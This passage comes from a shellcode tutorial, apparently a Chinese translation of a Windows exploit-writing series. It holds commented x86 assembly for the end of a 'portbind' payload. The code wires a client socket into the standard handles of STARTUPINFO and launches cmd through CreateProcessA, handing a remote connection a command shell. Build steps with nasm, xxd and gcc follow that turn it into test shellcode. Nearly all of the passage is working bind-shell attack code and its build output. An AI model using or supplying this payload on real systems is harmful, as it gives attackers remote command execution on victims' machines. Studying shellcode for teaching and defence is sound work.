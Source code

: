 ```
    push edi ;Preserve edi on the stack as it will be modified by the following instructions.
zero_structs:
    xor eax, eax ;Zero eax to for use with stosb to zero out the two structures.
    rep stosb ;Repeat storing zero at the buffer starting at edi until ecx is zero.
    pop edi ;Restore edi to its original value.
initialize_structs:
    mov byte[edi], 0x44 ;Set the cb attribute of STARTUPINFO to 0x44 (the size of the structure).
    inc byte[edi + 0x2d] ;Set the STARTF USESTDHANDLES flag to indicate that the hStdInput, hStdOutput, and hStdError attributes should be used.
    push edi ;Preserve edi again as it will be modified by the stosd.
    mov eax, esi ;Set eax to the client file descriptor that was returned by accept
    lea edi, [edi + 0x38] ;Load the effective address of the hStdInput attribute in the STARTUPINFO structure.
    stosd ;Set the hStdInput attribute to the file descriptor returned from accept.
    stosd ;Set the hStdOutput attribute to the file descriptor returned from accept.
    stosd ;Set the hStdError attribute to the file descriptor returned from accept.
    pop edi ;Restore edi to its original value.
execute_process:
    xor eax, eax ;Zero eax for use with passing zerod arguments.
    lea esi, [edi + 0x44] ;Load the effective address of the PROCESS INFORMATION structure into esi.
    push esi ;Push the pointer to the lpProcessInformation structure.
    push edi ;Push the pointer to the lpStartupInfo structure.
    push eax ;Push the lpStartupDirectory argument as NULL.
    push eax ;Push the lpEnvironment argument as NULL
    push eax ;Push the dwCreationFlags argument as 0.
    inc eax ;Increment eax to 1.
    push eax ;Push the bInheritHandles argument as TRUE due to the fact that the client needs to inherit the socket file descriptor.
    dec eax ;Decrement eax back to zero.
    push eax ;Push the lpThreadAttributes argument as NULL.
    push eax ;Push the lpProcessAttributes argument as NULL.
    push dword [ebp + 0x34] ;Push the lpCommandLine argument as the pointer to cmd.
    push eax ;Push the lpApplicationName argument as NULL.
    call [ebp + 0x08] ;Call CreateProcessA to created the child process that has its input and output redirected from and to the remote machine via the TCP connection.
exit_process:
    call [ebp + 0x0c] ;Call ExitProcess as the parent no longer needs to execute
+--------------- End portbind.asm --------------+

```

编译汇编代码

> ./shellcode-compiler.sh portbind.asm

你现在可以使用下面的”shellcode-compiler.sh”命令来编译这个shellcode并自动化地创建一个用于测试的可执行程序,你应该已经下载好了在教程1中的这个脚本和任意其他必须的脚本和程序 .

把portbind.asm编译成portbind.bin

```
[nasm -f bin -o portbind.bin portbind.asm]
    Converting portbind.bin to portbind.shellcode
[./xxd-shellcode.sh portbind.asm]
    \xXX\xXX\xXX\xXX\xXX...[snip]...\xXX\xXX\xXX\xXX\xXX
    Creating portbind.shellcodetest.c
    
    Compiling portbind.shellcodetest.c to portbind.shellcodetest[.exe]
[gcc -o portbind.shellcodetest portbind.shellcodetest.c]
    
    Complete. You can now execute ./portbind.shellcodetest[.exe]
    
    Enjoy,
    Ty Miller
```